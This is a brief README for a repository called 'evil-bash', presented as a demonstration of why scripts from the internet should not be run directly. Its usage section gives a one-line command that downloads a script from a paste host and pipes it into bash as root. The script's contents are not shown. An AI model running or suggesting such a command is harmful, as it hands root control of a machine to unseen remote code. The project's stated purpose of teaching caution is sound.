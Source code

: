 # evil-bash
A nasty bash script, used as a lesson on why to never run scripts directly from the internet.

I don't take full credit for this as I was inspired by a user on twitter for this one. 

However, I wanted to see if I could accomplish a similar task but without linking myself to a particular website or service, that had anything higher than basic authentication (username and password). So no sign up pages, no email verification no, personally identifying details being requested. I feel that I accomplished this in theory.

### Use:
Simply retrieve the script and run it from the internet directly like below;  
`su -c 'curl http://ix.io/1iVu.sh | bash'`

### Caution:
I am not responsible for the use of this script in any way shape or form. This script was designed as research
and educational purposes only. You've been warned.
